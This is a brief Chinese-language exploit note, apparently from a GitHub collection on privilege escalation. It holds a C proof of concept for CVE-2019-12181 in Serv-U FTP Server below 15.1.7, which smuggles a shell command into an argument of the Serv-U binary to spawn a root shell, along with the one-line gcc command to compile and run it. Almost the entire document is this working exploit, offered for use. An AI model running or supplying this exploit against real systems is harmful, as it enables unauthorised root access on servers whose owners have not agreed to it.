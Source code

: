 # 漏洞提权

---

## Linux











### Serv-U FTP服务器 < 15.1.7-本地提权  

- **编号：CVE-2019-12181**

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

- **利用**

```shell
gcc CVE-2019-12181.c -o exp && ./exp
```

